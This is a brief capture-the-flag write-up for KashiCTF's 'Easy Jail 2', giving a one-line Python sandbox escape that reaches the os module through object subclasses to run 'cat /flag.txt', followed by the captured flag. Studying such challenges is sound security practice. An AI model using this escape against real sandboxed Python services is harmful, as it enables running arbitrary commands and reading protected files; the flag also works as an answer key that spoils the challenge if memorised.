 # Easy Jail 2

```python
# also flags easy jail 1
().__class__.__bases__[0].__subclasses__()[120].load_module("os").system("cat /flag.txt")
```

## Flag

`KashiCTF{C4N_S71LL_CL3AR_8L4CKL15T_XB8FGGXU}`
